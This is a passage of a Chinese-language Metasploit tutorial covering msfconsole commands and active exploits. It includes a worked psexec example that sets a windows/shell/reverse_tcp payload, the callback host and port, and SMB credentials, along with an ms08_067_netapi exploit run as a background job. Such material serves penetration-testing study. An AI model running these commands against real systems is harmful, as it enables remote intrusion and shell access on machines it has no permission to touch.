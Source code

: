 ```
|NOPS|显示可用的空指令|msf > show nops|
|popm| 从堆栈中推出最近的模块并激活该模块 |
|previous| 使用之前的一个模块作为当前模块|
|pushm| 将当前模块压入堆栈|
|quit|  退出当前shell|
|reload_all|使用已定义的模块路径重调用模块|
|rename_job|Rename a job|
|resource|运行可被msfconsole加载的资源文件|msf > resource|
|route| 通过session设置socket路由通过Route traffic through a session|
|save|  Saves the active datastores|
|search|按关键字查找模块和描述 |msf > search help|
|sessions|导出 session 列表和信息 |msf > sessions -h|
|set| 配置选项值|msf auxiliary(ms09_050_smb2) > set RHOST 172.16.194.134 |
|setg| 设置全局变量|msf > setg LHOST 192.168.1.101|
|show|  显示给定类型、所有模块 |msf > show|
|sleep| 按指定秒数睡眠一段时间 |
|spool| Write console output into a file as well the screen|
|TARGETS|显示当前模块可以针对的目标|msf  exploit(ms08_067_netapi) > show targets|
|threads|显示并操作后台线程|
|unset| 取消设置项|
|unsetg|取消全局设置项|
|use|按名称启用一个模块|msf > use dos/windows/smb/ms09_001_write|
|version|查看版本信息|

具体参考：https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

### 2.3 渗透模块（exploit）

Metasploit框架中的所有漏洞都将分为两类：
- 主动渗透 ACTIVE EXPLOITS
- 被动渗透 Passive EXPLOITS

#### 2.3.1 ACTIVE EXPLOITS

主动渗透讲渗透某个主机，直至完成或退出。
- 当打开被攻击目标的某个shell时，暴力破解模块将退出。
- 如果遇到错误，模块执行将停止。
- 你可以通过使用参数“-j”强制一个主动模块到后台。

```shell
msf exploit(ms08_067_netapi) > exploit -j
[*] Exploit running as background job.
msf exploit(ms08_067_netapi) >

```

下面的例子展示了使用先前渗透成功后的shell：

```shell
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.100
RHOST => 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(psexec) > set LPORT 4444
LPORT => 4444
msf exploit(psexec) > set SMBUSER victim
SMBUSER => victim
msf exploit(psexec) > set SMBPASS s3cr3t
SMBPASS => s3cr3t
msf exploit(psexec) > exploit

```